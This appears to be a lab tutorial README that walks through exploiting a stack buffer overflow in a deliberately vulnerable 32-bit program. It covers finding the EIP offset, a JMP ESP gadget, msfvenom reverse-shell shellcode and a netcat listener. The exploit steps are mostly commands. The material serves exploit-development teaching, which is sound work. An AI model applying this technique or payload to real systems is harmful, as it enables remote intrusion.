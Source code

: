 ### Compile vuln.c and trigger the crash

Compile vuln.c as 32-bit, without stack canaries or ASLR:  
`$ gcc -Wno-stack-protector -no-pie -m32 -g -z execstack vuln.c -o vuln`

Run the vulnerable executable in gdb, and load the [PEDA](https://github.com/longld/peda) library: 
```
$ gdb ./vuln
(gdb) source /usr/share/gdb-peda/peda.py
```

Trigger overflow by passing 1000 'A' characters as an argument:  
`python vuln-poc.py`  
or  
`gdb-peda$ run $(python -c 'print "A" * 1000')`

### Find the EIP offset

Find the exact byte offset where EIP is overwritten, using `pattern` scripts:  
```
gdb-peda$ run $(/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000)
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q  <address>
```

Resulting offset should be 812.

Modify the PoC to send 812 'A', then 4 'B' then 184 'C'  
`gdb-peda$ run $(python -c 'print "A" * 812 + "B" * 4 + "C" * 184')`

EIP should now contain 0x42424242

### Find a JMP ESP to use

Find JMP ESP gadget (has been hardcoded in memory to make things easier - the 'junk' character array: FF E4)

```
gdb-peda$ file vuln
gdb-peda$ break _start
gdb-peda$ run
gdb-peda$ jmpcall esp
```

JMP ESP location should be 0x80485c0

### Generate Shellcode

Note the bad characters:
- \x00 (null byte): terminates string prematurely
- \x0a (line feed \n)
- \x0d (carriage return \r)

Also note the NOP sled (-n 20)

`$ msfvenom -f c -n 20 -b "\x00\x0a\x0d" -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5555`

Put it all together, execute the exploit, and catch the shell using netcat  
`$ nc -nvlp 5555`
